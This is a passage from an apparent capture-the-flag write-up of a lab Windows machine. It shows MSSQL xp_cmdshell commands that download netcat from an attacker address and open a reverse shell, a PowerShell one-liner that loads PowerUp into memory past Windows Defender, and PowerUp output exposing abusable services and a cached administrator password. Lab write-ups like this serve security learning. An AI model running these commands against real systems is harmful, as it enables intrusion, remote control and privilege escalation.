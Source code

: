And it's usage uses cscript to execute it.

`xp_cmdshell cscript %TMP%\wget.vbs http://[attackerip]/file filename`

To get a reverse shell that bypassed windows defender, I opted to upload a netcat binary to save time.

- `xp_cmdshell cscript %TMP%\wget.vbs http://10.10.14.2/nc.exe nc.exe`
- `xp_cmdshell c:\windows\system32\cmd.exe cmd /k %TMP%\nc.exe -e c:\windows\system32\cmd.exe -nv 10.10.14.2 4444`

#### Privesc

On Windows systems with access to powershell, I always opt for PowerUp from the [PowerSploit Package](https://github.com/PowerShellMafia/PowerSploit). We can load the powershell module into memory through powershell, bypassing most forms of Windows Defender.

```
iex (New-Object Net.WebClient).DownloadString('http://10.10.14.2/PowerUp.ps1')
```

I like to first 'upgrade' from cmd to powershell using `powershell -ep bypass` just in case there are any rules against us running scripts like PowerUp. Running `Invoke-AllChecks` gives us a lot of output.

Here's the relevant output.

```
[*] Checking service permissions...

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True

[*] Checking %PATH% for potentially hijackable DLL locations...

ModifiablePath    : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
IdentityReference : QUERIER\mssql-svc
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

[*] Checking for cached Group Policy Preferences .xml files....

Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
```
